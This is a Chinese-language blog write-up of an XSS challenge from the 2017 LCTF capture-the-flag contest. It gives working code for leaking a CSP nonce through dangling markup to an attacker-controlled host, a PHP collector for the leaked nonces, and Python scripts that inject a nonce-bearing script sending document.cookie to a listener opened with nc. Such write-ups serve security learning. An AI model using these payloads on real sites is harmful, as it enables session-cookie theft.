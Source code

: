 ```yaml
---
title: 2017LCTF wanna hack him? writeup
comments: true
date: 2017-11-20 15:06:07
tags:
 - writeup
 - xss
categories:
 - 信息安全
 - writeup
keywords:
 - writeup
 - xss
---
```


> 题目
> wanna hack him?
> 管理员使用了看似完美的安全配置.. 但是...
> http://211.159.146.223/

---

**注：以下出现的yourhost.com均为你自己的域名或者ip。自行准备外网ip或vps**

<!-- more -->

## 0x01 初见
打开后，会发现一个页面，根据经验。可以判断出来这是个xss题目。
preview可以检验你的payload。
点开后会发现有csp，指定lnonce。
之前本地测试时，以为nonce不变，获取到服务器端的nonce就可以用。
没想到服务器端的nonce是会变的。
然后分析题目，如何绕过nonce，发现基本不可能，无法构造语句来使用他那里的nonce。
所以只能想到，假设nonce有生效时长，那么可以获取到nonce后，在提交xss的带有获取到nonce的payload。从而实现xss、

## 0x02 获取nonce
可以通过不闭合标签，来拿到后面的信息。例如
`<img src='http://yourhost.com/?key=`

然后我是直接将nonce发送到自己预先在服务器中写好的PHP页面，由它保存为txt。
```
<?php
if($_GET&&$_GET['key']){
    $myfile = fopen("ctf.txt", "a+") or die("Unable to open file!");
    $txt = $_GET['key']."\r\n";
    fwrite($myfile, $txt);
    fclose($myfile);
}
?>
```
然后可以搭配脚本提交。也可以自己手动提交payload。
```
import requests
import time
def sendNonce():
    url='http://211.159.146.223/submit.php';
    data={'content':"<img src='http://yourhost.com/?key=";}
    r=requests.post(url,data=data)
    print(r.text)
while(1):
    time.sleep(5)
    sendNonce()
```
## 0x03 发送payload

脚本如下，发送payload。
逻辑为：拿到nonce->取出nonce->发送带有nonce的xsspayload。
`while(true); do nc -lnvp 2017; done`
然后手动监听2017端口，等待flag过来。

```
import requests
import time
#将获取到的信息分割，取出nonce
def getNonce(nonce):
    # nonce='<p>comment here</p><script nonce="9cfd6906dff65b782ae7e24b74ae3e5e">var test='
    nonce=nonce.split('here</p><script nonce="')[1].split('">var te')[0]
    print('[+]'+nonce)
    return(nonce)
# 访问vps端的ctf.txt。获取打到的一些nonce
def receiveNonce():
    url='http://yourhost.com/ctf.txt';;
    r=requests.get(url)
    nonceRawList=r.text.split('\r\n')
    return nonceRawList
# 发送xsspayload
def sendXSS(nonce):
    con="<script nonce='"+nonce+"'>location.href='http://yourhost.com:2017/?'+document.cookie;</script><!--";;
    print('[+]'+con)
    url='http://211.159.146.223/submit.php';;
    data={'content':con}
    requests.post(url,data=data)
nonceRawList=receiveNonce()
nonce=getNonce(nonceRawList[-2])
while(1):
    nonceRawList=receiveNonce()
    time.sleep(0.1)
    if(getNonce(nonceRawList[-2])!=nonce):
        nonce=getNonce(nonceRawList[-2])
        print('[-] The nonceList is receive!')
        sendXSS(nonce)
        sendXSS(nonce)
        sendXSS(nonce)
        sendXSS(nonce)
        print('[-] SendXSS OK!')
```

![flag](https://img.5am3.com/5am3/img/20191213225914.png)

## 0x04 期间遇到的一些小坑

这道题做了7个小时多吧。很烦。最初想到获取nonce很容易，然后在后期写脚本，与测试时。
一方面由于编程习惯不佳，还有就是心态不稳，造成很多困扰。
最后联系主办方后。获取到了一些服务端信息。

> bot每次只审一定量的payload。payload过多，会被刷下去。

然后考虑改进代码。因为之前是一直全速拿nonce，全速发送。

改成了5秒拿一个nonce，然后检测到nonce刷新后，立即发送多个xsspayload。
好在最后获取到了flag。但是感觉还是不在自己的预期，因为每次跑脚本，只会返回一个flag。多个payload只生效一个。

最后，期待主办方大佬放一下源码。到时候一定要认认真真看看这个bot。


p.s.初写博客，欢迎大家指点。